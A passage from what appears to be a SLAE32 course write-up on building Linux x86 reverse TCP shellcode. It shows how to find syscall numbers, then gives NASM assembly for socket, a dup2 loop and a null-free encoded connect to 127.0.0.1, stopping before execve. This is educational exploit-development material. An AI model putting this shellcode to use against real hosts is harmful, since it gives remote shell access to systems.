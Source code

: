 Once we know the system calls or syscalls, the values used in them and the order, it is necessary to get the hexadecimal values for every syscall, using cat and printf to print the hexadecimal value:

```bash
cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep listen

printf "%x\n" 363
```

Or the syscallhex.sh script (in scripts/ folder)


```bash
sh syscallhex.sh listen
```



The system calls and their values are:

- Socket:   359 (0x167)

- Dup2:     63 (0x3f)

- Connect:  362 (0x16a)

- Execve:   11 (0xb)


Also it is important to know how the system calls work in Linux. As stated in the [Skape's paper about egghunters](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf) "the system call interface that is exposed to user-mode applications in Linux (on IA32) is provided through soft-interrupt 0x80. The following table describes the register layout that is used across all system calls"

![Screenshot](https://raw.githubusercontent.com/ricardojoserf/slae32/master/a2_Shell_Reverse_Tcp/images/wrapper/6.png)

Knowing this and the values from the Libemu's output, it is possible to write the nasm code:

```assembly
global _start           

section .text
_start:
    ; Socket
    xor eax, eax
    mov ax, 0x167 ; Syscall 359 = Socket
    xor ebx, ebx
    mov bl, 2 ; $ebx = Domain = 2 [AF_INET]
    xor ecx, ecx
    mov cl, 1 ; $ecx = Type = 1 [SOCK_STREAM]
    xor edx, edx ; $edx = Protocol = 0 [not set]
    int 0x80
    
    ;dup2 - 2, 1, 0
    mov ebx, eax ; $ebx = File descriptor address
    mov cl, 3 ; $ecx = New file descriptor = 0
    int 0x80
bucle:
    xor eax, eax
    mov al, 0x3f ; Syscall is 63 = Dup2
    int 0x80
    dec ecx
    jns bucle

    ;Connect - 362
    mov ax, 0x16a ; Syscall is 362 = Connect ; $ebx = File descriptor address
    xor edi, edi ; edi is 0
    mov edi, 0x12111190 ; 0x12111190 = 0x100007F + 0x11111111
    sub edi, 0x11111111 ; 0x11111111 is an aux value. It can change to 0x22222222, 0x33333333 with the Python wrapper if IP+0x11111111 has NOPs
    push edi ; The real IP gets stored. In this case ip = 127.0.0.1, big endian
```